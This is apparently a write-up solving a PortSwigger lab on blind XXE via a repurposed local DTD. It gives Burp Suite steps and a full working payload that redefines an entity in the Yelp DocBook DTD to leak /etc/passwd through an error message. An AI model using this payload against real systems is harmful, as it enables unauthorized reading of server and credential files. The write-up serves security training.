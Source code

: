 # Exploiting XXE to retrieve data by repurposing a local DTD

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd) has a **Check stock** feature that parses XML input but does not display the result. See [Automating local DTD discovery for XXE exploitation](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/) for an excellent description of this attack and [their github repo](https://github.com/GoSecure/dtd-finder/blob/master/list/dtd_files.txt) for a list of potential DTD files.

## Reproduction and proof of concept

1. Visit a product page, click **Check stock**, and intercept the resulting POST request in Burp Suite.
2. Send to Repeater and insert the following parameter entity definition in between the XML declaration and the `stockCheck` element:

```text
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

This will import the Yelp DTD, then redefine the ISOamso entity, triggering an error message containing the contents of the `/etc/passwd` file.

![XXE](../../_static/images/xxe15.png)

## Exploitability

An attacker will need to reference an existing DTD file on the server and redefine an entity from it to trigger an error message containing the contents of the `/etc/passwd` file.
